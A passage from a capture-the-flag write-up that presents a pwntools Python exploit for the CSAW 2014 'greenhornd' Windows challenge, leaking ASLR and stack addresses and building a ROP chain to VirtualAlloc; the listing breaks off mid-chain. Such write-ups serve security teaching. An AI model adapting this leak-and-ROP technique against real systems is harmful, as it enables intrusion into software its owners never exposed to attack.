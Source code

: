Putting it all together, we have the following exploit:
```
'''
This exploit is based off of:
https://www.hackucf.org/csaw-2014-exploitation-400-greenhornd-exe/
some of noopnoop's work
'''

from pwn import *

target = remote('192.168.13.1', 9998)

def getMenu():
  target.recvuntil("Selection: ")

def leak():
  getMenu()
  target.sendline("A")
  target.recvuntil("ASLR slide is: ")
  leak = target.recvuntil("and")
  base = int(leak.strip(" and"), 16)
  target.recvuntil("stored at: ")
  leak = target.recvuntil(".")
  stackLeak = int(leak.strip("."), 16)
  return base, stackLeak

target.sendline("GreenhornSecretPassword!!!")

base, stackleak = leak()

pie = base + 0x400000
virtualAlloc = pie + 0x11C0
pop4 = pie + 0x199E
memcpy = pie + 0x11F0
callEax = pie + 0x1C6B

inputBase = stackleak - 0x3f8
newEbp = inputBase + 0x500

log.info("Base is: " + hex(base))
log.info("Stack infoleak: " + hex(stackleak))

target.sendline('V')
print target.recvuntil("constraints).\n\n")

payload = "C"
payload += "0"*0x3ff

# Calculate the address of the start of our rop chain
ropStart = stackleak + 0x4

ropChain = ""

# The start of our rop chain, which is just a value to deal with the `pop ebp`
ropChain += p32(0x30303030)

# Call Virtual Alloc
ropChain += p32(virtualAlloc)

# Pop off the four arguments of virtual alloc off of the rop chain
ropChain += p32(pop4)

# Our 4 Arguments to virtual Alloc

```